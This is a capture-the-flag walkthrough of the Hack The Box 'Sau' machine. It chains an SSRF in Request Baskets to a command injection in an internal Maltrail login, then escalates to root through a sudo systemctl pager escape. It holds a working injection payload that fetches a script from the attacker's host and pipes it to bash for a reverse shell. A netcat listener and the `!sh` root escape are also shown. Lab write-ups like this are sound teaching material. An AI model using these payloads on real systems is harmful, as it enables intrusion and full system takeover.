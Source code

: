 # easy - Sau

## User flag

Let's start by running nmap and reviewing any web app.

Nmap results:
```bash
sau➤ sudo nmap -n -Pn -sV -O -T4 sau.htb
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-02 09:11 -04
Nmap scan report for sau.htb (10.10.11.224)
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http
55555/tcp open     unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
...
...
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ok so port `80` is filtered and we've got a web app in tcp `55555`.

There is a redirection in there:
```bash
~z➤ curl -v -XGET -IL http://sau.htb:55555/
* processing: http://sau.htb:55555/
*   Trying 10.10.11.224:55555...
* Connected to sau.htb (10.10.11.224) port 55555
> GET / HTTP/1.1
> Host: sau.htb:55555
> User-Agent: curl/8.2.1
> Accept: */*
>
< HTTP/1.1 302 Found
HTTP/1.1 302 Found
< Content-Type: text/html; charset=utf-8
Content-Type: text/html; charset=utf-8
< Location: /web
Location: /web
< Date: Wed, 02 Aug 2023 13:17:34 GMT
Date: Wed, 02 Aug 2023 13:17:34 GMT
< Content-Length: 27
Content-Length: 27

<
* Excess found: excess = 27 url = / (zero-length body)
* Connection #0 to host sau.htb left intact
* Issue another request to this URL: 'http://sau.htb:55555/web'
* Found bundle for host: 0x5630fa988d10 [serially]
* Can not multiplex, even if we wanted to
* Re-using existing connection with host sau.htb
> GET /web HTTP/1.1
> Host: sau.htb:55555
> User-Agent: curl/8.2.1
> Accept: */*
>
< HTTP/1.1 200 OK
HTTP/1.1 200 OK
< Content-Type: text/html; charset=utf-8
Content-Type: text/html; charset=utf-8
< Date: Wed, 02 Aug 2023 13:17:34 GMT
Date: Wed, 02 Aug 2023 13:17:34 GMT
< Transfer-Encoding: chunked
Transfer-Encoding: chunked

<
* Excess found: excess = 2556 url = /web (zero-length body)
* Connection #0 to host sau.htb left intact
```

Here the web app:
{{< limg "/i/2023-08-02_09-17.png" "Request Baskets app" >}}

It is an interesting app, it servers a proxy for you that catches all http requests and shows them as history:
{{< limg "/i/2023-08-02_09-22.png" "Requests Basket App" >}}

I thought maybe a cli injection while creating the basket, but no luck.
```bash
~z➤ curl 'http://sau.htb:55555/api/baskets/foo;id' -X POST
invalid basket name; the name does not match pattern: ^[\w\d\-_\.]{1,250}$
```

So what is the page using?

```bash
~z➤ curl -s http://sau.htb:55555/web | xurls
~z➤ curl -s http://sau.htb:55555/web | ag href
  <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css" integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
  <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap-theme.min.css" integrity="sha384-rHyoN1iRsVXV4nD0JutlnGaslCJuC7uwjduW9SVrLvRYooPp2bWYgmgJQIXwl/Sp" crossorigin="anonymous">
  <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/font-awesome/4.6.3/css/font-awesome.min.css" integrity="sha384-T8Gy5hrqNKT+hzMclPo118YTQO6cYprQmhrYwIiQ/3axmI1hQomh7Ud2hPOy8SP1" crossorigin="anonymous">
      $("#baskets").append("<li id='basket_" + name + "'><a href='/web/" + name + "'>" + name + "</a></li>");
          $("#basket_link").attr("href", "/web/" + basket);
        <a id="refresh" class="navbar-brand" href="#">Request Baskets</a>
          <a href="/web/baskets" alt="Administration" title="Administration" class="btn btn-default">
          <a href="." class="btn btn-default">Back to list of your baskets</a>
          Powered by <a href="https://github.com/darklynx/request-baskets">request-baskets</a> |
```

So github.com/darklynx/request-baskets huh?. Here the CVE & Exploit: https://nvd.nist.gov/vuln/detail/CVE-2023-27163

So I've found something interesting, above from the nmap scanning you saw a filtered port `80`, so in basket I did a test. I created a basket that replies "hello" as part of the http response and then I created another basket and I've found this "Proxy Reverse" text field option, which seems to foward traffic to a backend. 

{{< limg "/i/2023-08-02_09-39.png" "Basket and url forwarding" >}}

We can put whatever we want there, even an internal service in the server, so we can expose it outside :evil:

So that internal web page seems to be a wiki hosted by *mailtrail*:
```html
~z➤ curl -s 'http://sau.htb:55555/hu0wydv' | ag href
        <link rel="stylesheet" type="text/css" href="css/thirdparty.min.css">
        <link rel="stylesheet" type="text/css" href="css/main.css">
        <link rel="stylesheet" type="text/css" href="css/media.css">
                <li class="header-li"><a class="header-a" href="https://github.com/stamparm/maltrail/blob/master/README.md" id="documentation_link" target="_blank">Documentation</a></li>
                <li class="header-li"><a class="header-a" href="https://github.com/stamparm/maltrail/wiki" id="wiki_link" target="_blank">Wiki</a></li>
<!--                <li class="header-li"><a class="header-a" href="https://docs.google.com/spreadsheets/d/1lJfIa1jPZ-Vue5QkQACLaAijBNjgRYluPCghCVBMtHI/edit" id="collaboration_link" target="_blank">Collaboration</a></li>
                <li class="header-li"><a class="header-a" href="https://github.com/stamparm/maltrail/issues/" id="issues_link" target="_blank">Issues</a></li>
```

Unfortunely this bug doesn't have a CVE. But an exploit is reported here: https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/ , the PoC: `curl 'http://hostname:8338/login' --data 'username=;`id > /tmp/bbq`'`

Ok, so that is a CLI injection and I'm able to ping my local computer from the app:
```bash
~z➤ curl 'http://sau.htb:55555/hu0wydv' --data 'username=;`curl 10.10.14.5:8000/`'
Login failed%

# Another shell
.../htb/p8/sau➤ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.224 - - [02/Aug/2023 09:54:02] "GET / HTTP/1.1" 200 -
10.10.11.224 - - [02/Aug/2023 09:54:25] "GET / HTTP/1.1" 200 -
```

Getting reverse shell:
```bash
~z➤ curl 'http://sau.htb:55555/hu0wydv' --data 'username=;`curl 10.10.14.5:8000/s.sh|bash`'

# From another term
.../htb/p8/sau➤ nc -lvnp 55555
Connection from 10.10.11.224:51230
sh: 0: can't access tty; job control turned off
$ id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
$ ls ~/
user.txt
```

## Root flag

So here we can gain root privs via sudo:
```bash
$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

So now that we run systemctl and longer outputs goes directly to `less` pager, we need an interactive shell first and then spawn a shell from `pager` with `!sh`:
```bash
.../htb/p8/sau➤ nc -lvnp 55555
Connection from 10.10.11.224:58850
sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
Script started, file is /dev/null
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!sh
!sshh!sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
```
